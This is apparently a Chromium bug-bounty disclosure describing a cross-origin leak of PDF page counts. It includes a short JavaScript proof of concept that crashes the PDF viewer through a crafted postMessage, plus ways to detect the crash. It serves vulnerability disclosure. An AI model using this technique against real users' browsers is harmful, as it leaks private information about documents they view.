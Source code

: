```yaml
---
title: PDF Page count leak (Awarded $500)
---
```


[Issue 1306443](https://bugs.chromium.org/p/chromium/issues/detail?id=1306443)

On chrome the PDF viewer has a message listener thats used for the cross-origin scripting API.  
By sending a message to the viewer with the type of getThumbnail and a page number thats greater then the number of available pages it would crash to prevent OOB access.
```js
let w = open('https://www.w3.org/WAI/ER/tests/xhtml/testfiles/resources/pdf/dummy.pdf');
setTimeout(_ => w[0].postMessage({type: 'getThumbnail', page: '1337'}, "*"), 1000);
```
This crash can be detected cross-origin in the following ways
- Checking device performance like with [devicemonitor](https://devicemonitor.glitch.me/) after ```w[0].postMessage({type: 'print'});```  
- [Issue 1307087](https://bugs.chromium.org/p/chromium/issues/detail?id=1307087)
- Extension tabs API looking for the status of unloaded (no permission needed)
